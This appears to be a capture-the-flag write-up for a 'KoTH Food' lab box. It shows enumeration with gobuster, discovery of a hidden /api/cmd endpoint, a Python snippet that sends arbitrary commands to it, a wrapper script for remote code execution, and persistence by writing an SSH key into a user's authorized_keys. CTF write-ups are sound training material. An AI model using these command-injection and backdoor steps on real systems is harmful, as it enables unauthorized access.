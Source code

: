 # KoTH Food CTF

## Monitor

When navigating to `$TARGET:15065` in a web browser, you are presented with an "Under Construction" message with seemingly nothing that can be done. If you enumerate this location, however, you will discover an endpoint `/monitor` that you can navigate to. 

Gobuster Command:

```bash
gobuster dir -u http://$TARGET:15065 -w <wordlist> -t 50
```

Output:

```bash
===============================================================
/monitor              (Status: 301) [Size: 0] [--> monitor/]
===============================================================
```

Upon arriving at the `/monitor` page, you are presented with an input box that will ping a given IP address.  Putting in `127.0.0.1`, we can see the output of the command is rendered in a `<div>` element. The output looks exactly like what you would expect if you ran the `ping` command in your terminal, indicating we may be able to execute arbitrary commands on the target. When we try to append command line commands to the IP address, however we get an `IP address invalid` message returned to us. It looks like this input box is sanitized or filtered in some way to prevent RCE. 

While RCE via the input may not be likely, it does not mean this page is not vulnerable. The next step is to look at the page source and the network traffic when we send a legitimate request. When looking at the page source, we find `main.js` imported. Pulling down `main.js` we find it obfuscated; we will look more at this later. Observing the network traffic, we see the request is sent to `cmd` with the body being a terminal command (`ping -c 3 <ipAddress>`). This brings us closer to confirming RCE; all we have to do now is find out the full address of the endpoint this request is being sent to.

Looking at the obfuscated JavaScript code pulled down, we find an array at the top with base64 encoded values, and oddly named functions. Base64 decoding the values in the top array, we find they are a mix of dictionary keys and other values. Scrolling down and scanning the rest of the code, we find a `POST` request to an `api/cmd` endpoint. This is what we are interested in. This `api/cmd` endpoint is where the `ping -c 3 <ipAddress>` command was being sent when we submitted the form on `/monitor`. 

To look for the `api/cmd` endpoint, we can check two likely locations: `/monitor/api/cmd` and `/api/cmd`. When we `POST` to `/monitor/api/cmd` we get a `404` status code returned. When we `POST` to `/api/cmd` we get a `200` status code returned. The endpoint is, therefore, located at `http://$TARGET/api/cmd`. 

Now that we have an endpoint to target, we can begin testing commands:

```python
import requests
target = "http://<targetip>:15065/api/cmd"
resp = requests.post(target, "whoami".encode())
```

The output of the above command reveals the username of the user hosting the site, and confirms the ability to remotely execute arbitrary code on the target machine. To make this less manual, I created [monitor_rce](monitor_rce.py). This will automatically format and execute a command given by the user and print the output to `STDOUT`.  Using eith the manual method or [monitor_rce](monitor_rce.py), it is possible to upload a reverse shell, gain a meterpreter session, etc.

One we have a foothold on the target, we can begin to explore and search for a flag. When you run `ls -la ~` to view the current user's home directory, there is a file that is called `flag`. When we try to `cat flag`, however, we get a permission denied error.  To read this, we must elevate our privilege. 

First, to gain more stability with out shell, we can create an SSH key pair and SSH into the target as `bread` by creating an `.ssh` directory with an `authorized_keys` file in `bread`'s home directory.

Commands:

```bash
mkdir /home/bread/.ssh
touch /home/bread/.ssh/authorized_keys
```

After the `authorized_keys` file is created, we can generate an SSH key pair on our attack machine and place the contents of `<our_key_name>.pub` in `authorized_keys`. From there we can SSH into the box as bread and continue our attack.

Command (On Attack Machine):

```bash
ssh-keygen

... <enter info as prompted> ...

cat <your_key_name>.pub

... <copy contents to authorized_keys on target> ...

ssh bread@$TARGET -i <your_key_name>
```


### Monitor_RCE

To successfully execute commands using [monitor_rce](monitor_rce.py), you must pass in the command as a string and give the program the target IP address and port number. An example of how to run the program is below.

Command:

```bash
./monitor_rce.py $TARGET 15065 -c "ls -la ~"
```

The above command will list all the contents of the user's home directory.

Output:

```bash
============================================================
[i] Target IP: 10.10.96.190
[i] Target Port: 15065
[i] Command: "ls -la ~"
============================================================

============================================================
                           Output                           
============================================================
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources

============================================================
[+] command successfully executed
```